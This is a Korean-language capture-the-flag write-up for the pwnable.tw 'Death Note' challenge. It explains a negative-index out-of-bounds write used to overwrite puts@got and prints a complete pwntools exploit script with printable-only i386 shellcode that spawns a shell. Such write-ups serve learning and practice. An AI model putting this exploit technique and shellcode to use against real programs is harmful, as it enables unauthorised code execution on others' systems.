 ```yaml
---
title: "[pwnable.tw]Death Note"
date: 2020-2-20
ctf: Pwnable.tw
layout: post
---
```


nx가 안걸려있다. 쉘코딩을 해주면 되는 문제다.

```
[*] '/vagrant/ctfs/pwnable.tw/death_note/death_note'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

printable한 범위의 글자밖에 사용못한다. 그리고 OOB가 터진다. 음수는 검사하지 않아서 원하는 주소에 값을 쓸 수 있게 된다. 그래서 puts@got에 값을 덮어서 쉘코드가 실행되게 하면 된다. 

쉘코드 어떻게 짰냐면`execve("/bin//sh");` 하기위해서  `/bin//sh` 를 스택에 push해주고 ebx에 값을 넣어주고 edx에 있는 주소 이용해서 쉘코드 뒤에 eip 다음 주소를 cd80으로 만들어줬다.

> exploit.py

```python
from pwn import *

context.arch = 'i386'
context.log_level = 'debug'
e = ELF('./death_note')
#p = process('./death_note')
p = remote('chall.pwnable.tw',10201)
sa = lambda x,y : p.sendafter(x,y)
sla = lambda x,y : p.sendlineafter(x,y)
note = 0x0804A060

def add(idx,name):
	sa('Your choice :','1')
	sa('Index :',str(idx))
	sla('Name :',name)

def show(idx):
	sa(':','2')
	sa(':',str(idx))

def delete(idx):
	sa(':','3')
	sa(':',str(idx))

# b*0x080487EA
shellcode = asm('''
push 0x33
pop eax
xor al, 0x33
push eax
push 0x68732f2f
push 0x6e69622f
push esp
pop ebx

push 0x33
pop eax
xor al, 0x33
dec ax
xor al, 50
push eax

push edx
pop eax
xor al, 32

pop edx

xor al, 40
xor [eax+0x46], dl

push eax
push edx
pop eax

xor al, 0x4d

push eax
pop edx
pop eax

xor [eax+0x47], dl

push 0x33
pop eax
xor al, 0x33
push eax
pop edx

push eax
push 0x40
pop eax
xor al, 75
''')

# b*0x080487CA
show(-32/4)
stdin = u32(p.recvuntil('\x0a')[-5:-1]) # _IO_2_1_stdin_+72
log.info('_IO_2_1_stdin_ : {}'.format(hex(stdin)))
libc_base = stdin - 0x1b25e8
log.info('libc_base : {}'.format(hex(libc_base)))
offset = (e.got['puts'] - note) / 4
show(offset)
log.info(str(offset))
#raw_input()

print hexdump(shellcode)
add(offset,shellcode)

p.interactive()
```